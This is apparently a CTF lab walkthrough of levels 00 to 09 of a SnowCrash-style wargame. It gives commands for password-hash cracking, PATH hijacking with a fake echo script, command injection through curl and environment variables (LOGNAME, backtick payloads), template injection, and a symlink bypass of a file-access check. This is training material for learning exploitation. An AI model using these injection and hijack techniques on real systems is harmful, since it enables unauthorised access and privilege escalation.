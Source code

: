 # snow_cash

## level00

- cloudshark
- john
- dcode.fr 

## level01 

`flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash`

`docker run -it kalilinux/kali-rolling'`
`john test.txt --show`

## level02 

`chmod +r`

`scp -P 4242 level02@localhost:/home/user/level02/level02.pcap  /home/sgroinfr/kali_c/shared` 

`tshark -r level02.pcap -q -z follow,tcp,ascii,0`

## level03 

`strace ./level03 | grep Exploit`
[pid 2599] system("/usr/bin/env echo Exploit me"

>The program is using system() to execute a command that uses /usr/bin/env to run echo. This is a potential vulnerability because it's using the PATH environment variable to find the echo command.

```
cd /tmp
echo '#!/bin/bash' > echo
echo 'getflag' >> echo
chmod +x echo
```
`export PATH=/tmp:$PATH`

`./level03`

## level04 

>we try differet stuff
```
curl localhost:4747/?x="\`/bin/getflag\`"
```

## level05 
`vim /opt/openarenaserver/getflag.sh`
```
#!/bin/bash
/bin/getflag > /tmp/flag05
```
## level 6

`echo '[x ${`getflag`}]' > /tmp/flag06`
`./level06 /tmp/flag06`


## level07 

`strings ./level07` 
LOGNAME
/bin/echo %s 
;*2$" what is that  
```
export LOGNAME="\`getflag\`"
```

## level08 

%s [file to read]
token
You may not access '%s'
Unable to open %s
Unable to read fd %d
;*2$"


`ln -s $(realpath token) /tmp/symlink`
`./level08 /tmp/symlink`

## level09

UWVS
You should not reverse this
LD_PRELOAD
Injection Linked lib detected exit..
/etc/ld.so.preload

creat scripte in tmp 

```
#!/usr/bin/python
import sys
```

>Read the token file content
content = open("/home/user/level09/token").readline()

>Iterate over the characters in the content

```
for i, c in enumerate(content):
    try:
        # Manipulate and print the character based on the loop index
        sys.stdout.write(chr(ord(c) - i))
    except Exception as e:
        # Handle specific exceptions if necessary
        pass
```
>Print a newline at the end: print()
